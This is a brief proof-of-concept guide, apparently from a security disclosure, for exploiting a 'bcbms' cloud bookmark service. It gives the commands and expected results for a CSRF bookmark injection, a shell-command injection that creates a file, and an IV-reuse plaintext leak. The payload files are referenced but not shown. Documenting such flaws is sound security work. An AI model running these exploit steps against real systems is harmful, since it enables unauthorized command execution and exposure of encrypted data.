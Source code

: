 # Proof‑of‑Concept Guide

## 1  CSRF Bookmark Injection
sudo ./bcbms &          # start cloud service
xdg-open poc/inject.html
# ⇒ Bookmark 'evil.com' silently inserted.

## 2  Shell‑Command Injection
curl "$(cat poc/cmd_inject.txt)"
# ⇒ File 'hacked' created (or chosen payload runs).

## 3  IV‑Reuse Plaintext Leak
python3 poc/xor_leak.py
# ⇒ Script prints XOR’d plaintext bytes from two archives.

## Notes
* Clean up with `pkill bcbms` if you backgrounded the server.
